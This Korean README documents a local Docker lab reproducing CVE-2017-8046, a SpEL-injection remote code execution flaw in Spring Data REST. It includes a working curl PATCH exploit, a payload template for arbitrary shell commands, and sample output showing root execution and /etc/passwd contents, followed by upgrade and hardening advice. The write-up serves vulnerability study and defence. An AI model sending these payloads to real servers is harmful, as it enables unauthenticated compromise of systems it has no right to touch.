



# Spring Data REST SpEL Injection (CVE-2017-8046)

화이트햇 스쿨 4기 송재우 ([stacknoah](https://github.com/stacknoah))

Spring Data REST는 JPA 리포지터리를 REST API로 자동 노출해 주는 스프링 모듈이다. 취약한 버전은 PATCH 요청을 처리할 때 JSON Patch의 `path` 값을 SpEL(Spring Expression Language) 표현식으로 평가한다. 인증이 필요 없는 이 경로에 임의의 SpEL을 넣으면 서버에서 원하는 명령이 그대로 실행된다.

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2017-8046 |
| 영향 제품 | Spring Data REST |
| 취약 버전 | 2.6.6, 2.6.7, 2.6.8 (수정: 2.6.9 / 3.0.1) |
| 취약점 유형 | SpEL 표현식 인젝션에 의한 원격 코드 실행 |
| 인증 필요 | 없음 |
| 공격 벡터 | 네트워크 원격 (HTTP PATCH) |
| CVSS 3.0 | 9.8 Critical (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) |

## 1. 요약

Spring Data REST는 JSON Patch 형식(RFC 6902)의 PATCH 요청을 받으면, 각 연산의 `path`가 가리키는 대상을 찾기 위해 그 값을 SpEL 표현식으로 컴파일하고 평가한다. 취약한 버전에서는 이 평가가 아무 제약 없이 이루어지기 때문에, 공격자는 `path`에 정상적인 속성 경로 대신 `T(java.lang.Runtime).getRuntime().exec(...)` 같은 표현식을 넣을 수 있다. 그러면 서버가 이 표현식을 평가하는 과정에서 명령이 실행된다.

이 결함은 인증 없이 트리거되고, 대상 리소스가 하나만 노출되어 있어도 성립한다. 표현식이 평가되는 순간 명령이 실행되므로, 별도의 조건이나 사용자 상호작용이 필요하지 않다.

같은 SpEL 인젝션 계열로 Spring Cloud Function(CVE-2022-22963), Spring Cloud Gateway(CVE-2022-22947), Spring4Shell(CVE-2022-22965)이 있다. 진입점(sink)은 저마다 다르지만, 신뢰할 수 없는 입력이 표현식 엔진에서 평가된다는 뿌리는 같다.

## 2. 환경 구성

이 환경은 도커 허브의 기성 취약 이미지(`vulhub/*` 등)를 내려받지 않는다. 공식 베이스 이미지 위에 취약 버전을 소스에서 직접 빌드한다. 어떤 버전의 어떤 패키지가 취약한지가 전부 `Dockerfile`과 `pom.xml`에 드러나 있다.

| 구성 요소 | 버전 | 지정 위치 |
| --- | --- | --- |
| Spring Data REST (취약 컴포넌트) | 2.6.6 | `pom.xml` (릴리즈 트레인을 Ingalls-SR6로 override) |
| Spring Boot | 1.5.7.RELEASE | `pom.xml` (parent) |
| 빌드/실행 JDK | Eclipse Temurin JDK 8 | `Dockerfile` (`maven:3.9.6-eclipse-temurin-8`, `eclipse-temurin:8-jre-jammy`) |
| 데이터베이스 | H2 인메모리 | 컨테이너 내부 (별도 DB 컨테이너 없음) |

### 디렉토리 구성

```
CVE-2017-8046/
├── Dockerfile
├── docker-compose.yml
├── pom.xml
├── poc.sh
├── src/main/java/com/example/demo/
│   ├── DemoApplication.java
│   ├── Customer.java
│   └── CustomerRepository.java
├── src/main/resources/application.properties
└── README.md
```

`Dockerfile`은 두 단계로 나뉜다. 빌드 단계에서 공식 `maven` 이미지로 취약 jar를 컴파일하고, 실행 단계에서 공식 `eclipse-temurin` JRE로 그 jar만 실행한다. 데이터베이스는 H2 인메모리를 사용하므로 컨테이너는 하나면 충분하다.

### 실행

```
docker compose up --build -d
```

기동에는 몇 초가 걸린다. 시작 시 예제 레코드 한 건이 자동으로 저장되어 `/customers/1`이 만들어진다.

```
curl -s http://localhost:8080/customers/1
```

## 3. 취약 조건

다음 조건이 성립할 때 익스플로잇이 가능하다.

1. Spring Data REST 버전이 2.6.6 이상 2.6.8 이하이다. (2.6.9와 3.0.1에서 수정되었다.) 본 환경은 `pom.xml`에서 릴리즈 트레인을 Ingalls-SR6으로 고정해 2.6.6을 사용한다.
2. Spring Data REST가 리포지터리를 REST로 노출하고, 해당 리소스가 PATCH를 허용한다. 이는 모듈의 기본 동작이다.

이 문제는 단순한 설정 실수가 아니다. Spring Data REST가 PATCH의 `path`를 SpEL로 평가한다는 코드 자체의 결함이며, 공식 어드바이저리(CVE-2017-8046)로 등록되어 있다. 2.6.9의 수정은 노출 설정을 바꾼 것이 아니라, `path`를 더 이상 임의 SpEL로 평가하지 않도록 코드를 고친 것이다.

## 4. 재현 절차

### 4.1 환경 기동

```
docker compose up --build -d
```

### 4.2 정상 동작 확인

시드된 리소스가 정상적으로 조회되는지 본다.

```
curl -s http://localhost:8080/customers/1
```

```json
{
  "firstName" : "John",
  "lastName" : "Doe",
  "_links" : { "self" : { "href" : "http://localhost:8080/customers/1" } }
}
```

### 4.3 익스플로잇

PATCH 요청의 `path`에 SpEL을 주입한다. 아래 예시는 컨테이너 안에 `/tmp/success` 파일을 생성한다. 경로에는 슬래시나 따옴표를 직접 넣기 어렵기 때문에 명령 문자열을 `byte[]`로 인코딩해 우회한다. `byte[]{116,111,...}`은 `touch /tmp/success`이다.

```
curl -i -s -X PATCH http://localhost:8080/customers/1 \
  -H 'Content-Type: application/json-patch+json' \
  -d '[{"op":"replace","path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastName","value":"x"}]'
```

응답은 SpEL 평가 오류(EL1010E)를 반환한다. 표현식이 `Runtime.exec(...)`를 먼저 실행한 뒤 그 결과에 `.lastName`을 세팅하려다 실패하기 때문이며, 이 시점에는 이미 명령이 실행된 상태다.

### 4.4 결과 확인

```
docker compose exec spring ls -l /tmp/success
```

파일이 존재하면 컨테이너 내부에서 임의 명령이 실행되었다는 뜻이다.

## 5. PoC

`poc.sh`는 위 과정을 자동화한다. 명령을 인자로 받아 실행 결과까지 회수해서 보여준다. 명령 문자열은 스크립트가 자동으로 `byte[]`로 인코딩한다.

```
./poc.sh                # 기본 명령 id
./poc.sh 'id; uname -a' # 임의 셸 명령
```

동작은 다음과 같다.

1. 입력한 명령을 `sh -c "명령 > /tmp/rce_output 2>&1"` 형태로 감싸 SpEL 페이로드를 만든다.
2. PATCH 요청으로 `path`에 그 SpEL을 주입한다. Spring Data REST가 평가하면서 명령이 실행되고, 결과가 컨테이너 내부 파일에 저장된다.
3. 저장된 결과 파일을 읽어 출력하고, 실행 후 정리한다.

핵심 페이로드의 구조는 아래와 같다.

```
T(java.lang.Runtime)
  .getRuntime()
  .exec(new java.lang.String[]{ '/bin/sh', '-c', '<명령>' })
```

`T(...)`는 SpEL의 타입 참조 연산자로, 실제 `java.lang.Runtime` 클래스에 접근하게 해 준다. 여기서 `exec`을 호출해 명령이 실행된다.

## 6. 실행 결과

### 6.1 환경 기동과 정상 동작



### 6.2 원격 코드 실행 (id)



```
[*] Command  : id

[+] 결과:
uid=0(root) gid=0(root) groups=0(root)
```

컨테이너 안에서 root 권한으로 명령이 실행되었다.

### 6.3 임의 명령 실행



```
[*] Command  : id; hostname; head -n 3 /etc/passwd

[+] 결과:
uid=0(root) gid=0(root) groups=0(root)
...
root:x:0:0:root:/root:/bin/bash
```

## 7. 대응 방안

1. 버전 업그레이드가 근본 대응이다. Spring Data REST 2.6.9 이상 또는 3.0.1 이상으로 올린다. Spring Boot 기준으로는 1.5.9 이상, 2.0.0 이상이다. 이 수정은 PATCH의 `path`를 임의 SpEL로 평가하지 않도록 코드를 바꾼 것이다.

2. REST로 노출할 리소스와 허용할 HTTP 메서드를 필요한 것만 열어 공격 표면을 줄인다.

3. 컨테이너 하드닝으로 피해 범위를 줄인다. 본 환경은 컨테이너 root로 실행되어 명령이 root 권한으로 돈다. `Dockerfile`에서 root가 아닌 사용자를 지정하고, 불필요한 커널 권한을 제거하면 침해가 발생해도 영향이 제한된다.

## 참고 자료

- NVD: https://nvd.nist.gov/vuln/detail/CVE-2017-8046
- Spring Security Advisory: https://spring.io/security/cve-2017-8046
- Exploit Database: https://www.exploit-db.com/exploits/44289
